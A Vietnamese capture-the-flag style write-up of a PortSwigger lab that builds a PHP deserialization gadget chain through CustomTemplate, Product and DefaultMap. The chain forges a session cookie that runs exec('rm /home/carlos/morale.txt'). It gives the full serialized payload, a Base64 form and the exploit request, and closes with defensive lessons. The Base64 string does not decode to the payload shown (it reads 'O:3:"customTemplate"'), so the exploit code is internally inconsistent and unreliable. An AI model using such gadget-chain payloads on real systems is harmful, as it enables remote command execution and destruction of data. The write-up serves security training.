


# Write-up: Developing a custom gadget chain for PHP deserialization

### Tổng quan
Khai thác lỗ hổng **Insecure Deserialization** trong ứng dụng PHP, nơi dữ liệu serialized trong cookie `session` được xử lý mà không kiểm tra tính toàn vẹn. Bằng cách phân tích source code của `CustomTemplate.php`, kẻ tấn công xây dựng một gadget chain sử dụng các lớp `CustomTemplate`, `Product`, `DefaultMap`, và magic method `__wakeup()` để gọi hàm `call_user_func("exec", "rm /home/carlos/morale.txt")`, thực thi lệnh xóa tệp và hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **Insecure Deserialization** bằng cách xây dựng một gadget chain để thực thi lệnh `exec("rm /home/carlos/morale.txt")` thông qua deserialization của cookie `session`, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `wiener:peter` và quan sát trong Burp Proxy HTTP history, request tới file PHP:  
  ```
  GET /cgi-bin/libs/CustomTemplate.php HTTP/2
  Host: 0a5e003d04ef567890ab023400cd00a9.web-security-academy.net
  ```  
- Lộ source code bằng request:  
  ```
  GET /cgi-bin/libs/CustomTemplate.php~ HTTP/2
  Host: 0a5e003d04ef567890ab023400cd00a9.web-security-academy.net
  ```  
- **Phản hồi**:  
  - Source code chứa các lớp:  
    ```php
    <?php

    class CustomTemplate {
        private $default_desc_type;
        private $desc;
        public $product;

        public function __construct($desc_type='HTML_DESC') {
            $this->desc = new Description();
            $this->default_desc_type = $desc_type;
            // Carlos thought this is cool, having a function called in two places... What a genius
            $this->build_product();
        }

        public function __sleep() {
            return ["default_desc_type", "desc"];
        }

        public function __wakeup() {
            $this->build_product();
        }

        private function build_product() {
            $this->product = new Product($this->default_desc_type, $this->desc);
        }
    }

    class Product {
        public $desc;

        public function __construct($default_desc_type, $desc) {
            $this->desc = $desc->$default_desc_type;
        }
    }

    class Description {
        public $HTML_DESC;
        public $TEXT_DESC;

        public function __construct() {
            // @Carlos, what were you thinking with these descriptions? Please refactor!
            $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
            $this->TEXT_DESC = 'This product is cool in text';
        }
    }

    class DefaultMap {
        private $callback;

        public function __construct($callback) {
            $this->callback = $callback;
        }

        public function __get($name) {
            return call_user_func($this->callback, $name);
        }
    }

    ?>
    ```  
- **Phân tích**:  
  - Cookie `session` chứa dữ liệu serialized, được unserialize khi xử lý request.  
  - Magic method `__wakeup()` trong `CustomTemplate` gọi `build_product()`, dẫn đến tạo đối tượng `Product`.  
  - Trong `Product::__construct()`, `$desc->$default_desc_type` truy cập thuộc tính động, có thể kích hoạt `__get()` nếu `$desc` là `DefaultMap`.  
  - `DefaultMap::__get($name)` gọi `call_user_func($this->callback, $name)`, là sink để thực thi lệnh tùy ý:  
      

2. **Kiểm tra lỗ hổng Insecure Deserialization**  
- **Ý tưởng khai thác**:  
  - Mục tiêu: Thực thi lệnh `exec("rm /home/carlos/morale.txt")` khi unserialize cookie `session`.  
  - Xây dựng gadget chain:  
    - `CustomTemplate->__wakeup()` gọi `build_product()`.  
    - `build_product()` tạo `new Product($this->default_desc_type, $this->desc)`.  
    - Trong `Product::__construct()`, `$this->desc = $desc->$default_desc_type`.  
    - Nếu `$desc` là `DefaultMap` và `$default_desc_type` là `"rm /home/carlos/morale.txt"`, thì `$desc->$default_desc_type` gọi `DefaultMap::__get("rm /home/carlos/morale.txt")`.  
    - Trong `DefaultMap::__get($name)`, `call_user_func($this->callback, $name)` được gọi với `$this->callback = "exec"` và `$name = "rm /home/carlos/morale.txt"`, dẫn đến `exec("rm /home/carlos/morale.txt")`.  
- **Payload**:  
  ```php
  O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}}
  ```  
- **Giải thích payload**:  
  - Tạo đối tượng `CustomTemplate` với:  
    - `$default_desc_type = "rm /home/carlos/morale.txt"`.  
    - `$desc = DefaultMap` với `$callback = "exec"`.  
  - Khi unserialize, `__wakeup()` gọi `build_product()`, dẫn đến `Product::__construct("rm /home/carlos/morale.txt", DefaultMap)`.  
  - `$desc->$default_desc_type` gọi `DefaultMap::__get("rm /home/carlos/morale.txt")`, thực thi `call_user_func("exec", "rm /home/carlos/morale.txt")`:  
      

3. **Khai thác (Exploitation)**  
- Đăng nhập với tài khoản `wiener:peter`, lấy cookie `session` từ Burp Proxy.  
- Mã hóa payload thành Base64:  
  ```php
  TzozOiJjdXN0b21UZW1wbGF0ZSI6Mjp7czoxNzoiZGVmYXVsdF9kZXNjX3R5cGUiO3M6MjY6InJtIC9ob21lL2Nhcmxvcy9tb3JhbGUudHh0IjtzOjQ6ImRlc2MiO086MTA6IkRlZmF1bHRNYXAiOjE6e3M6ODoiY2FsbGJhY2siO3M6NDoiZXhlYyI7fX0=
  ```  
- Thay thế cookie `session` trong request:  
  ```
  GET / HTTP/2
  Host: 0a5e003d04ef567890ab023400cd00a9.web-security-academy.net
  Cookie: session=TzozOiJjdXN0b21UZW1wbGF0ZSI6Mjp7czoxNzoiZGVmYXVsdF9kZXNjX3R5cGUiO3M6MjY6InJtIC9ob21lL2Nhcmxvcy9tb3JhbGUudHh0IjtzOjQ6ImRlc2MiO086MTA6IkRlZmF1bHRNYXAiOjE6e3M6ODoiY2FsbGJhY2siO3M6NDoiZXhlYyI7fX0=
  ```  
- Gửi request, server unserialize cookie, thực thi `exec("rm /home/carlos/morale.txt")`.  
- **Ý tưởng payload**:  
  - Sử dụng gadget chain qua `CustomTemplate`, `Product`, và `DefaultMap` để gọi `call_user_func("exec", "rm /home/carlos/morale.txt")` thông qua deserialization.  
- **Kết quả**:  
  - Lab xác nhận tệp `/home/carlos/morale.txt` bị xóa, hoàn thành lab:  
      

### Bài học rút ra
- Hiểu cách khai thác **Insecure Deserialization** bằng cách xây dựng gadget chain sử dụng các lớp PHP (`CustomTemplate`, `Product`, `DefaultMap`) và magic method `__wakeup()` để thực thi lệnh tùy ý (`exec`).  
- Nhận thức tầm quan trọng của việc sử dụng digital signature để kiểm tra tính toàn vẹn dữ liệu serialized, kiểm tra nghiêm ngặt kiểu dữ liệu, và thay thế native serialization bằng các định dạng an toàn như JSON để ngăn chặn các cuộc tấn công deserialization.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc xây dựng gadget chain để khai thác **Insecure Deserialization** trong PHP, nhấn mạnh tầm quan trọng của việc kiểm tra tính toàn vẹn dữ liệu serialized và sử dụng các định dạng an toàn để bảo vệ ứng dụng khỏi các cuộc tấn công thực thi mã tùy ý. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*